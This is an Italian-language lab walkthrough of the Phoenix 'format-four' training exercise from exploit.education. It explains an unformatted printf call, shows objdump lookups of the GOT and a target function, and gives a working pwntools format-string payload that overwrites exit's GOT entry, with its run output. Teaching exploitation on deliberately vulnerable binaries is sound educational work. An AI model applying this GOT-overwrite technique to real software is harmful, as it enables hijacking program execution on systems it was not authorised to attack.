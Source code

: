 ### Descrizione del Codice

Il programma `format_four.c` introduce la scrittura in memoria in modo tale da poter controllare l'esecuzione del codice.

### Funzionamento del Programma

1. Il programma legge un input dall'utente e lo memorizza in `buf`.
2. Chiama la funzione `bounce` che stampa il contenuto di `buf` usando `printf`.
3. La funzione `bounce` termina il programma chiamando `exit`.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `printf` con un input controllato dall'utente senza specificare un formato, il che può causare una vulnerabilità di formato. Questo può essere sfruttato per sovrascrivere l'indirizzo della funzione `exit` nella Global Offset Table (GOT) con l'indirizzo della funzione `congratulations`.

### Exploit

L'exploit sfrutta la vulnerabilità di formato per sovrascrivere l'indirizzo della funzione `exit` nella GOT con l'indirizzo della funzione `congratulations`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```sh
$ objdump -R /opt/phoenix/i486/format-four

/opt/phoenix/i486/format-four:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497d8 R_386_JUMP_SLOT   printf
080497dc R_386_JUMP_SLOT   puts
080497e0 R_386_JUMP_SLOT   read
080497e4 R_386_JUMP_SLOT   exit
080497e8 R_386_JUMP_SLOT   __libc_start_main

L'indirizzo di exit è 0x080497e4.

Otteniamo l'indirizzo della funzione congratulations:
$ objdump -t /opt/phoenix/i486/format-four | grep congratulations
08048503 g     F .text	00000019 congratulations

La funzione congratulations è a 0x08048503.

Soluzione:
# solve.py

from pwn import *

exit = 0x080497e4
congratulations = 0x08048503

buff = ""
buff += p32(exit+0)
buff += p32(exit+1)
buff += p32(exit+2)
buff += p32(exit+3)

buff += '%x ' * 11      # offset to first byte

buff += 'A' * 178       # JUNK
buff += "%n"            # write to first byte

buff += 'A' * 130       # JUNK
buff += "%n"            # write to second byte

buff += 'A' * 127       # JUNK
buff += "%n"            # write to third byte

buff += 'A' * 4         # JUNK
buff += "%n"            # write to forth byte

print(buff)

Eseguiamo lo script:
$ python solve.py | /opt/phoenix/i486/format-four
Welcome to phoenix/format-four, brought to you by https://exploit.education
0 0 0 f7f81cf7 f7ffb000 ffffd708 804857d ffffc700 ffffc700 fff 0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, you're redirected code execution!
Well done, you're redirected code execution!
Well done, you're redirected code execution!

Il programma entra in un ciclo infinito perché abbiamo sovrascritto l'indirizzo di exit, ma l'importante è che siamo riusciti a reindirizzare l'esecuzione del codice.